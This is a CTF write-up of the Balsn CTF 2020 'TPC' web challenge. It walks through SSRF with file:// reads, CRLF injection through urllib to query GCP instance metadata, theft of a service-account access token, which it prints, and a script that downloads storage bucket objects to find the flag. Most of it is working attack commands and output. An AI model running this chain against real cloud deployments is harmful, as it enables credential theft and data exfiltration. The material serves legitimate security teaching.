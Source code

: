 +++
title = "Balsn Ctf 2020 TPC"
date = "2020-11-17T12:03:46+01:00"
author = "SakiiR"
authorTwitter = "sakiirsecurity"
cover = ""
tags = ["web", "ssrf", "gcp", "google"]
keywords = ["", ""]
description = "Using CRLF injection to perform SSRF on Google Metadata"
showFullContent = false
+++

# TPC (web, 310p, 33 solves)

![challenge.png](/files/balsn-ctf-2020-tpc/challenge.png)

## Description

The challenge implements a simple python application taking an URL as parameter. It allows us to perform SSRF and local file disclosure.

Reading a file on the server is as simple as:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///etc/passwd'
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```

We first needed to be sure what the python code does. To find this out, we tried to find where it was located:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///proc/self/cmdline'
```

```
/usr/local/bin/python/ usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app --bind 0.0.0.0:8000 --workers 5 --worker-tmp-dir /dev/shm --worker-classgevent --access-logfile - --error-logfile
```

Now that we know the application name, we can simply dump the file using:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///proc/self/cwd/main-dc1e2f5f7a4f359bb5ce1317a.py'
```

```python
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```

It looks like there's nothing much going on with this python code. 


Looking at system files we noticed that the instance is under a GCP cluster:

```
# /etc/resolve.conf
nameserver 169.254.169.254
search asia-east1-b.c.balsn-ctf-2020-tpc.internal c.balsn-ctf-2020-tpc.internal google.internal
```

```
# /etc/hosts
127.0.0.1       localhost
::1             localhost

169.254.169.254 metadata.google.internal metadata
```

We can use this information to perform http request on the Google Internal API:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/'
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Unfortunatly, the Google API requires a special header to be placed in the HTTP request:

```
Metadata-Flavor: Google"
or
X-Google-Metadata-Request: True
```

To do this, we need to control the HTTP request sent by the python script. It cannot be done unless the http client used is vulnerable to a CRLF injection. 

```shell
# requirements.txt
# Nothing to see tho
Flask==1.1.2
requests==2.23.0
gevent==20.9.0
gunicorn==20.0.4
```

Using some google dorks, I found the following hackerone post:

```
site:hackerone.com urllib
```


[URLLib CRLF Injection](https://hackerone.com/reports/590020)

Let's try this:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/hostname%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'
```

```
tpc-1.asia-east1-b.c.balsn-ctf-2020-tpc.internal
```

From now, we know the challenge will be about finding the flag as a volume or something. Let's dig in the google APIs.

We can obtain the google api token by using this:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/service-accounts/909684563558-compute@developer.gserviceaccount.com/token%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'
```

```json
{"access_token":"ya29.c.KpcB5Qf1Y_GQAIL2c0Zyb9gzjvR3y14PYiPegz97C0BZP8AoWcNjrrEHNf90WbfjEVVcCBC8w9e3JAClRY3cVA_7DCH6rfajwGNDMY5UYbuffUqCrtGYT6JJrx2lSlG00vm4auxuSpnRm8efQpuAiknPYBXT0CXbF4CH85axaVELJRXT7_X2isbn7eppLZvVDza2spDjPXSylw","expires_in":2877,"token_type":"Bearer"}
```

Let's export the token for future usage:

```shell
$ export TOKEN=$(curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/service-accounts/909684563558-compute@developer.gserviceaccount.com/token%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'|jq -r '.access_token')
```

We can use it on the "external" GCP API:

[https://cloud.google.com/storage/docs/json_api/v1](https://cloud.google.com/storage/docs/json_api/v1)

```shell
curl -s "https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=$TOKEN"
```

```json
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/
auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2655,
  "access_type": "online"
}
```

> The token has the `devstorage.read_only` privilege and that will help us dumping the disk.

```shell
$ curl -s "https://storage.googleapis.com/storage/v1/b?project=balsn-ctf-2020-tpc&access_token=$TOKEN
```

```json
{
  "kind": "storage#buckets",
  "items": [
    {
      "kind": "storage#bucket",
      "selfLink": "https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "id": "asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "name": "asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "projectNumber": "909684563558",
      "metageneration": "1",
      "location": "ASIA",
      "storageClass": "STANDARD",
      "etag": "CAE=",
      "timeCreated": "2020-10-03T05:12:42.035Z",
      "updated": "2020-10-03T05:12:42.035Z",
      "iamConfiguration": {
        "bucketPolicyOnly": {
          "enabled": false
        },
        "uniformBucketLevelAccess": {
          "enabled": false
        }
      },
      "locationType": "multi-region"
    }
  ]
}
```

We can dump the objects id:

```shell
$ curl -s "https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token=$TOKEN"|jq -r '.items[].name'
```

```
containers/images/sha256:1c2e7c9e95b20a8dde6674890b722779c5a797d9d5968a9fa3a0ef89cd90f9b4
containers/images/sha256:28be5eecf71473105c76c5beb040ecf0a28ee2b515fd1756037756ddfd991e06
containers/images/sha256:33e113b16000d89397d3ec7fef9ba22cefbe8517cf2060c6077d723ecacf27f8
containers/images/sha256:343c1ee7a36e03dbe64c58fb910113bf6d0b996dc46d3cdf94b7d97e389c0ad
[...]
```

We urlencoded all of these and stored it as a file to use it in a script:

```shell
dir="./_objects"
mkdir -p "$dir"
for objectId in $(cat /tmp/objects) ; do
    echo "Dumping $objectId"

    outputFile="${dir}/${objectId}.tar.gz"
    curl --output - -Ls "https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o/$objectId?access_token=$TOKEN&alt=media" > "$outputFile"

    # List files from the downloaded archive object:
    tar --list --verbose --file="$outputFile"
done
```

This gave us the following objects/files:

```
Dumping containers%2Fimages%2Fsha256%3A343c1ee7a36e03dbe64c58fb910113bf6d0b996dc46d3cdf94b7d97e389c0ad3
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/workdir/
-rwxr-xr-x 0/0               0 1970-01-01 01:00 opt/workdir/.wh..wh..opq
Dumping containers%2Fimages%2Fsha256%3A8101ae8fd2dd26ce8868cad0a19f49fd2c7fb0b0a8035b7628ad012589e60b2f
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 0/0               0 2020-11-12 06:21 opt/workdir/
-rw-r--r-- 0/0             373 2020-10-03 07:04 opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py
Dumping containers%2Fimages%2Fsha256%3A82b1f60a85530dec16e7db3c4af65f3ea612f579dc25b0daa35d5d253183a537
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 1001/1001         0 2020-11-12 06:21 opt/workdir/
-rwxr-xr-x 1001/1001       225 2020-11-12 06:15 opt/workdir/docker-entrypoint-dc1e2f5f7a4f359bb5ce1317a.sh
-rw-r--r-- 1001/1001        54 2020-11-12 06:13 opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt
-rw-r--r-- 1001/1001       373 2020-10-03 07:04 opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py
-rw-r--r-- 1001/1001        62 2020-10-03 07:04 opt/workdir/requirements.txt
```

We extract the associated object and obtain the flag:

[object-containing-flag.tar.gz](/files/balsn-ctf-2020-tpc/object-containing-flag.tar.gz):

```shell
$ cat opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt
BALSN{What_permissions_does_the_service_account_need}
```
